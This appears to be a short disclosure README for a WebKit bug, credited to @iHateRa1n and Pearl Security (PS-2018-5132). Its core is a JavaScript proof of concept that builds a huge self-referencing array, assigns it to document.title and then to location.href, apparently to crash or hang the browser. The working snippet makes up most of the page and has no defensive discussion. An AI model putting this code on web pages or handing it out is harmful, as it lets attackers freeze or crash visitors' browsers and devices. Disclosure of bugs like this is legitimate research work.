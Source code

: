 # WebKit indirect variable assignment w/ document.title + location.href w/ an Array

Discovered and written by @iHateRa1n. 

```javascript
a=new Array(1048576*12);
for(j=0;j<a.length;j++){
  a[j]=a;
};
document.title=a;
location.href=document.title;
```

PS-2018-5132

- Pearl Security
